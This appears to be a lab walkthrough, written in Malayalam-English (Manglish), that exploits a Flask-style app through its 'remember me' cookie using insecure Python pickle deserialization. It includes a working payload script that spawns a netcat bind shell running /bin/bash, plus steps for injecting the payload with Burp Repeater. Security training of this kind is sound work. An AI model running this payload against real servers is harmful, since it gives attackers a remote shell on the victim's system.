 ## Video 2 - exploitation against ISO
-->so adyam lab open chyuka enit oru account undakuka.enit aa account vech login chyuka
-->ini burp il poi nokumbol namude request oke kanan patum.avide namuk kanan patum namude cookie
```http
Cookie: session=eyJ1c2VybmFtZSI6Impvc3UifQ.FmdDOA.23V2LEZXZagBlfr5-Rjb6HmrFNA
```
-->so ivide ey enn kanunathkodn ith base64 encoded aanen thonunu.so ith namal decoder il itt decode chyumbol `{"username":"josu"fQ.gCOA.Ûuv,FWe¨úù-F6újÅNA`  ennan kanikunath
-->athayat aadyathe dot vere ullath namuk base64 il proper decode chyan patum. but athin shesham ullath namak decode chyan patila. karanam aa credentials aarum tamper chyathirikan jwt pole signature use chyunund.so aarengilum username josu mati admin aakiyapolum signature matan kazhiyathath kond tampering nadakila
-->But namal ivide oru functionality chech chyan maran poi ie, login chyuna samayath remember me enna oru option und.
-->so logout chyuka enit onukoodi login chyuka enit ipravisham login chyumbol remember me tick iduka enit login chyuka
-->so ingane login chythit nerteh pole burp il request analyse chyuka apol kanam ipravisham rand cookies namuk set aayitund :
```http
Cookie: rememberme="KGxwMQpWam9zdQpwMgphUyc5ZmI0ZTE2ZWM5MzIwYTAyZmVmMWM5MDA0ZTRkZjQ3NycKcDMKYS4="; session=eyJ1c2VybmFtZSI6Impvc3UifQ.FmdE_g.3rl0Zhe_hy_K6Vg3xoOVh9kyD-o
```
-->so ee remember me cookie eduth decoder il itt base64 decode chyuka :
```
(lp1
Vjosu
p2
aS'9fb4e16ec9320a02fef1c9004e4df477'
p3
a.
```
-->ipol kanam somestrings inte idayil josu enna namude username.so namal ini enth chyanamenal pickle use chyth namal thane oru malicious serialisatio undakuka enit base64 ecode chythit remember me cookie yil add chyanam.enit server ath desirialisation chyumbol namal enthano serialisation chyuna stringil koduthitullath ath server execute chyum ok
-->so first namal oru pickle object script undakanam :
```python
import cPickle
import os
import base64
class Blah(object):
   def __reduce__(self):
       return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
print (base64.b64encode(cPickle.dumps(Blah()))
```
-->payload_pickle.py enn ee script in peru kodukam.ini ee script namude terminalil run chyam 
->python pickle.py 
-->ipol namude script serialisation chythit print chyapedum in base64.so ee base64 code eduthit ini namude remember me cookieyil idanma
-->so aadyam aa requst edut repeater il iduka enit remember me cookie yil namal ipo undakya base64 payload replace chyuka.enit send adikuka.
-->namude kalil yil nc vech listen chyanam.but ivide listen chythitum aakunila.
-->so enth chyanamenal rand cookie undalo.athil session cookie remove chyanam.enit onukoodi send adikumbol namuk nc il connect aakunund ok
-->already session cookie undenegil remember me cookie server chelapo check chyanamenila.so remember me cookiyil namal entheniglum exploitaion chyumbol session cookie remove chythit exploit chyan patunundon nokanam ok
